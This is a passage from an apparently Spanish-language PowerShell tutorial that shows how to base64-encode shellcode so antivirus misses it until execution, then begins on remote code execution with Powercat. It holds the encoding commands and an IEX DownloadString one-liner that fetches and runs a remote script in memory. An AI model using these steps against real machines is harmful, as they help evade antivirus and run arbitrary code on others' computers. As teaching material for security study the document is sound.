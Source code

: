 Esto tiene una ventaja: Si nuestro código ejecuta acciones maliciosas o potencialmente peligrosas para el usuario, el antivirus sería incapaz de detectarlas hasta el momento de su misma ejecución. Las shellcodes encodeadas le dan el potencial a un inofensivo .txt de realizar cualquier acción en un ordenador. Eso puede sonar muy bonito, pero créeme: El poder corrompe. De hecho, si ya has entrado aquí con intenciones de romper cosas, ya estabas corrupto de antes.

Para encodear una shellcode y ejecutarla, no tenemos más que ejecutar lo siguiente:

```powershell
$comando = ‘<shellcode>’
$bytes = [System.Text.Encoding]::Unicode.GetBytes($comando)
$shenc = [Convert]::ToBase64String($bytes)
```

El primer comando guarda nuestra shellcode en una variable. Podría escribirse la shellcode literalmente en la terminal interactiva, leerse de un fichero o cualquier otro modo de almacenarla en una variable.
El segundo, convertirá nuestro texto a los bytes correspondientes en Unicode.
La tercera convierte estos bytes en el texto encodeado definitivo. Este puede ejecutarse sin más o guardarse en un fichero ($shenc > ShEnc.txt).

Y bueno, sí, hasta ahora hemos convertido un texto legible en un puñado de letras aleatorias... ¿Y eso de qué nos vale? Lo sabrás pronto.

# Ejecución remota de código arbitrario en PowerShell

Y tan pronto, ¿eh?

## Preparativos

Para poder ejecutar código arbitrario remotamente en PowerShell necesitamos:

1. Comprender el concepto de shellcode encodeada y saber encodear una shellcode. (Si no lo sabes, viene justo antes).
2. Tener una shellcode que queremos ejecutar en otro ordenador.
3. Tener Powercat en PowerShell en ambos ordenadores.
4. Acceso (físico o remoto) a ambos ordenadores.

### Instalando Powercat

La instalación de Powercat es muy sencilla. Siguiendo [el GitHub del creador](https://github.com/besimorhino/powercat "GitHub del creador"), solo necesitamos ejecutar el siguiente comando para tener Powercat listo:

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

Esto descargará el .ps1 de Powercat y lo incluirá en la sesión actual de PowerShell.

### ¿Cómo funciona Powercat?

Powercat consta de un único comando (powercat) al que se le pasan una serie de parámetros. Los más comunes son:

